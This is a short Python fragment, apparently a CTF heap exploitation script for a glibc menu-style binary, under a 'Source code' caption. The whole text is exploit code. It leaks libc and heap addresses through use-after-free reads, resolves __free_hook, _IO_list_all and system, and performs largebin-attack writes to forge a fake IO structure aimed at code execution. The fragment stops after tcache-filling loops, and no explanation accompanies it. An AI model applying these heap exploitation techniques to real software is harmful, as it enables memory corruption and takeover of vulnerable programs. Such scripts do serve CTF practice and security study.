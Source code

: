 ```python
add(0,0x460)
add(4,0x90)
add(1,0x450)
add(4,0x90)
delete(0)

show(0)
ru('context: ')
libcbase=leak_address()-0x1ebbe0
free_hook=libcbase+libc.sym['__free_hook']
IO_list_all = libcbase + libc.sym['_IO_list_all']
system = libcbase + libc.sym['system']
_IO_str_jumps = libcbase + 0x1ed560
print('[+]libcbase: '+hex(libcbase))
print('[+]free_hook: '+hex(free_hook))
print('[+]system: '+hex(system))
print('[+]_IO_str_jumps: '+hex(_IO_str_jumps))

add(4,0x500)

edit(0,'a'*0xf)
show(0)
ru('aaaaa\n')
heap=leak_address()
print('[+]heap: '+hex(heap))
edit(0,p64(libcbase+0x1ebfe0)*2+p64(heap)+p64(free_hook-8-0x20))
delete(1)
add(4,0x500)



edit(0,p64(heap+0x510)+p64(libcbase+0x1ebfe0)+p64(heap+0x510)+p64(heap+0x510))
edit(1,p64(libcbase+0x1ebfe0)+p64(heap)+p64(heap)+p64(heap))
add(4,0x450)
add(4,0x460)

add(0,0x460)
add(4,0x90)
add(1,0x450)
add(4,0x90)
delete(0)
add(4,0x500)
edit(0,p64(libcbase+0x1ebfe0)+p64(heap+0x1430)*2+p64(IO_list_all-0x20))
print('[+]heap: '+hex(heap))
delete(1)
add(4,0x500)

edit(0,p64(heap+0x1940)+p64(libcbase+0x1ebfe0)+p64(heap+0x1940)+p64(heap+0x1940))
edit(1,p64(libcbase+0x1ebfe0)+p64(heap+0x1430)*3)#fake_io

add(3,0x450)#fake_io/overlap

add(4,0x460)



for i in range(5):
	add(0,0x90)
	delete(0)
for i in range(7):
	add(0,0x200)
	delete(0)
	
```